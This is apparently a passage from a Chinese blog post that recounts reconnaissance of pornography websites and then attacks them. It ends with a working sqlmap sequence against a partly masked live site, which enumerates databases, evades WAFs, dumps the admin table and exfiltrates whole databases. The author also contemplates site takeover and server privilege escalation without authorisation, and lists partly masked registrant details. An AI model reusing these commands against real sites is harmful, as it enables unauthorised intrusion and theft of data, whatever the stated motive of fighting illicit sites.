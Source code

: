 ![](http://upload-images.jianshu.io/upload_images/977602-a8e81797c4ca749d?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](http://upload-images.jianshu.io/upload_images/977602-9798bee91ba3c544?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
IP地址：23.23.X.X
开放端口：80、21、5985
服务器地区：海外（美国）
备案信息：未备案
注册人地区：福建
域名服务商：godaddy
域名注册人： LIxx
注册人联系信息：806xxx@qq.com
……

经过20多个网站的分析，发现无论是服务器地区、服务器托管商、域名注册商、注册人信息等等，都非常分散。但是仍然可以得到一些信息：
a. 这些网站80%托管在香港和海外（美国）；
b. 清一色没有做正规备案；
c. 大部分都没有留下注册人信息，部分会留下QQ邮箱。

小结：经过上面四个步骤的信息收集，我们可以得到这个基本的情况：这些色情网站是由很多小团队分散运营，通过购买类似的"色情CMS"进行搭建并运营；另外，为了避开国内的监管，大部分选择将服务器托管到香港和美国为主的服务商，并且很少留下注册的联系信息。（后续可以通过微信和支付宝、网站数据库等可以做进一步追踪）

4、漏洞挖掘
如果按照正常的灰产打击流程，最直接的方法就是采用“钓鱼执法”，例如直接微信或者支付宝支付，然后看看能否加到好友，继而直接揪出幕后运营者（如果对方用的小号，并且腾讯和阿里不介入，此方法估计走不通）。
所以，在这之前，我们先看看能否在技术上进行突破。例如，能否通过拿到后台数据库，找到后台管理页面，直接接管网站，或者通过数据库找到更加详细的管理员账号信息等等，甚至通过服务器提权拿到整个服务器权限；而实现这些的前提是：能否找到这套"色情CMS"的漏洞？
考虑到这类Web软件偏"地下流传"，不像知名的discuz论坛，有很多公开漏洞和渗透工具可以直接利用。所以，先用Web漏扫看看有没有能否找到常规漏洞。先对托管在国外的几个色情网站动手，发现都是PHP+MySQL架构，很多在Windows+IIS上面跑，而且幸运的是，大体都能爆出SQL注入和XSS跨站脚本漏洞，当然，这些漏洞能不能用，还得进一步验证。
（注明：上面提到的漏扫，Burp/AWVS/Appscan随意，更具体的使用这里省去）

5、SQL注入渗透
接下来，先手工找几个注入点看看，点击网站的分类列表，可以得到类似"php?id=x"的链接=>
![](http://upload-images.jianshu.io/upload_images/977602-1445c05f42da2df2?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
这里收集了不同网站的一批注入点，然后我们拿神器SQLmap出来溜一圈。不同网站防护情况不同（例如安装了waf），注入的效果是不同的，不能一条指令走到黑，需要调整注入的参数，例如是否加长时间延迟、是否采用随机头部、是否加大注入级别。按照这个思路，大概需要用到这些指令：

① SQL注入得到数据库和管理员信息
```
root@kali:~# sqlmap.py -u http://txxxcom/list.php?id=1 --dbs --users  
root@kali:~# sqlmap.py -u http://txxxcom/list.php?id=1 --dbs --users --dbms mysql 
root@kali:~# sqlmap.py -u http://txxxcom/list.php?id=1 --dbs --users --time-sec 2 --dbms mysql --level=2 --risk=2 --random-agent
```

②根据注入得到的数据库，获取数据库里面的数据表
```
sqlmap.py -u http://txxxcom/list.php?id=1 --tables -D "aaaaaa"  
sqlmap.py -u http://txxxcom/list.php?id=1 --tables -D "aaaaaa"  --random-agent 
```

③获取管理员数据表或者暴力脱裤
```
sqlmap.py -u http://txxxcom/list.php?id=1 --dump -T "xxadminxx" -D "aaaaaa" 
sqlmap.py -u http://txxxcom/list.php?id=1 --dbms mysql --dump-all  -D "aaaaaa"
```
